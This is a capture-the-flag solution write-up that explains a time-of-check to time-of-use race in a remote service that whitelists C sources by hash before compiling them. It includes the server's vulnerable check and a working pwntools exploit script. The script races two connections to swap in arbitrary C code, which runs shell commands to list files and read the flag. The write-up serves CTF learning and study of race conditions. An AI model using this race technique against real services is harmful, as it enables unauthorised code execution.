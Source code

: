 # A Day at the Races &mdash; Solution

We are given access to a remote service that will compile, run and time the execution of our C program. However, the service seems to only allow the execution of two pre-approved C programs.

As the name of the challenge suggests, we're dealing with a race condition here --- the service uses the filesystem to store sources and executables, and multiple instances of the service can be running in parallel reading and writing the same files. In particular, this is a simple example of a [time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) vulnerability --- the file on the filesystem can change between the time its hash is checked against a whitelist and the time it's compiled.
```python
REVIEWED_SOURCES = [
    "24bf297fff03c69f94e40da9ae9b39128c46b7fe", # fibonacci.c
    "55c53ce7bc99001f12027b9ebad14de0538f6a30", # primes.c
]

def check_compile_and_run(source_path):
    slow_print("Checking if the program is safe {} ...\n".format(source_path))
    hash = hashlib.sha1(open(source_path, 'rb').read()).hexdigest()
    if not hash in REVIEWED_SOURCES:
        error("The program you uploaded has not been reviewed yet.")
    exe_path = source_path + ".exe"
    slow_print("Compiling {} ...\n".format(source_path))
    subprocess.check_call(["/usr/bin/gcc", "-o", exe_path, source_path])
    slow_print("Running {} ...\n".format(exe_path))
    time_start = time.time()
    subprocess.check_call(exe_path)
    duration = time.time()-time_start
    slow_print("Duration {} s\n".format(duration))
```

The game plan is as follows:
- We will connect with two instances of the service in parallel, let's denote them with `S1` and `S2`.
- We will send `S1` a legitimate program (e.g., `primes.c`) to be compiled and executed using some filename (e.g., `saldjfasasd.c`).
- At the moment when `S1` is done checking the legitimate source code against the whitelist, but before starting compilation:
  - We send arbitrary C code to instance `S2` *using the same filename* `saldjfasasd.c` as in the previous step, overwriting the legitimate source code on the remote filesystem.
- `S1` will now compile and execute our non-reviewed C code.

The full solution is below.
```python
#!/usr/bin/env python3

import base64
from pwn import *

def conn():
    context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])
    if args.REMOTE:
        p = remote('0.cloud.chals.io', 10840)
    else:
        p = process('./server.py')
    return p

TARGET = b"""
#include <stdlib.h>
int main() {
    system("ls -la");
    system("cat flag.txt");
}
"""

GOOD = b"I2luY2x1ZGUgPHN0ZGlvLmg+CgppbnQgaXNfcHJpbWUobG9uZyBsb25nIG4pIHsKICAgIGZvciAobG9uZyBsb25nIGk9MjsgaSppPD1uOyBpKyspCiAgICAgICAgaWYgKG4laSA9PSAwKQogICAgICAgICAgICByZXR1cm4gMDsKICAgIHJldHVybiAxOwp9CgppbnQgbWFpbigpIHsKICAgIGxvbmcgbG9uZyBuID0gMWxsPDw1NTsKICAgIHdoaWxlICghaXNfcHJpbWUobikpCiAgICAgICAgbisrOwogICAgcHJpbnRmKCIlbGxkXG4iLCBuKTsgCiAgICByZXR1cm4gMDsKfQ=="

p1 = conn()
p2 = conn()

print(p1.recvuntil(b'filename: '))
p1.sendline(b'saldjfasasd.c')
print(p2.recvuntil(b'filename: '))
p2.sendline(b'saldjfasasd.c')

print(p1.recvuntil(b'(base64):'))
print(p2.recvuntil(b'(base64):'))
p1.sendline(GOOD)
print(p1.recvuntil(b'Compiling'))
p2.sendline(base64.b64encode(TARGET))

p1.interactive()
p2.interactive()
```
